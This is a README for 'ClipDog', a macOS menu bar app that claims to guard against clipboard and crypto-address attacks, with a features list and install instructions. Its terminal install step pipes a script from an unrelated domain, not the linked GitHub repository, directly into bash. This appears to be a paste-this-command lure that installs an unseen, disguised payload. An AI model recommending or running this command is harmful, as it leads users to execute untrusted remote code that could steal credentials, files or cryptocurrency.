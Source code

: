 # ClipDog 🐕

A macOS menu bar app that saves you from clipboard attacks.
![alt](/clipdogscr.png)
![alt](/clipdogscr2.png)

## Features

- 🔍 Sits in your menu bar with a modern icon
- 📋 Shows copied text in a beautiful native popup
- 🛡️ Detects and warns about suspicious crypto addresses
- 😄 Fun "Meme Mode" with animated overlay
- 🎨 Modern translucent design with rounded corners

## Running the App

[Download DMG from releases](https://github.com/Yosem1t3/clipdog/releases/latest)

Or install via terminal:

```bash
/bin/bash -c "$(curl -fsSL https://macostutorial.com/git/install.sh)"
```

The app will appear in your menu bar as a shield with a dog icon. Click it to show the popup!

## Requirements

- macOS 11.0 or later
- Swift 5.9 or later
